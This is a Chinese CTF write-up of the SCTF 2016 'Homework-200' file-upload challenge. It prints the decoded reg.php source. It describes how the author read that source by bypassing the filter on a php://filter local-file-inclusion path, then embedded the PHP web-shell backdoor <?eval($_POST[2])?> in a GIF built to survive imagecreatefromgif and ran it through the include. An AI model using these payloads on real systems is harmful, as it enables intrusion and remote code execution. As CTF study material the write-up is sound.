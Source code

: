##pt &nbsp; &nbsp;Homework-200 （文件上传类题目）  
####解题过程：
*  先使用'php://filter/read=convert.base64-encode/resource='语句读取登录页面reg.php源码。   
将homework.sctf.xctf.org.cn/homework.php?homework=homework.txt改为homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=reg.php  发现不行，:-( 反馈为 plz don't read my code， 猜测应该是过滤了read,想办法绕过，尝试Read,顺利读出reg.php的base64格式。[∩_∩]  解码后如下：   
```  
    <html>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    </html>
    <?php
    include('./config.php');
    session_start();
    function make_password()
    {
    	$password="";
    	$chars="abcdefghijklmnopqrstuvwxyz1234567890-=!@#$%^&*_";
    	for($i=0;$i<8;$i++)
    	{
    		$password.=$chars[rand(0,46)];
    	}
    	return $password;
    }
    
    if(isset($_POST['captcha_code'])){
    	// code for check server side validation
            $captcha_code = (string)$_POST['captcha_code'];
    	if(empty($_SESSION['captcha_code'] ) || strcasecmp($_SESSION['captcha_code'], $captcha_code) != 0){  
    		 exit('验证码错误');
    	}else{// Captcha verification is Correct. Final Code Execute here!		
    		
    	}
    } else {
    	exit('Get out!');
    }
    //unset($_SEESION['captcha_code']);
    session_destroy();
    if(isset($_POST['upload'])){
    $filename = $_FILES['uploaded']['name'];
    $filetype = $_FILES['uploaded']['type'];
    $filesize = $_FILES['uploaded']['size'];
    $tmpname = $_FILES['uploaded']['tmp_name'];
    $uploaddir = './upload/';
    $target_path = $uploaddir.basename($filename);
    $fileext = substr(strrchr($filename,"."),1);
    if(($fileext == 'gif')&&($filetype == "image/gif")){
    	{
    		if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	}
    	$im =imagecreatefromgif($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".gif";
    	$newimagepath = $uploaddir.$newfilename;
    	imagegif($im,$newimagepath);
    	unlink($target_path);
    }else if(($fileext == 'jpg')&&($filetype == "image/jpeg"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".jpg";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }else if (($fileext=='png')&&($filetype=="image/png"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".png";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }
    }
    if(isset($_POST['name'])&&isset($_POST['age']))
    {
    	$name=substr($_POST['name'],0,6);
    	$age=intval($_POST['age']);
    	$username=file_get_contents('./id.txt');
    	$password=make_password();
    	file_put_contents('./id.txt',intval($username)+1);
    	mysql_query("insert into info(username,password,name,pic,age)values('$username',md5('$password'),'$name','$newimagepath',$age)");
    	mysql_close($con);
    	print("生成成功，学号:$username,密码：$password");
    	print("<a href='./index.html'>回主页</a>");
    }
    ?>
```
*  然和呢，发现这题主要是绕过createimagefromgif()函数    
想到这个知识点：https://www.secgeek.net/bookfresh-vulnerability/     
先尝试了jpg、png、gif格式的图片，发现只有gif可以，接下来如何构造自己嵌入了php代码的gif图片呢？   
文章中提到的方法是：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?> 留作后门   
上传成功后在网页上输出经过处理后的和自己上传的那张一模一样的图片，在当前目录下查看这张图片: homework.sctf.xctf.org.cn/homework.php?homework=./1305771078.gif
网页上出现一堆怪异的字符，然后留的后门就有用啦  
推荐firefox下一个非常好用的插件hackbar  
![](file:D:\CTF\SCTF\2016\1\1.png)
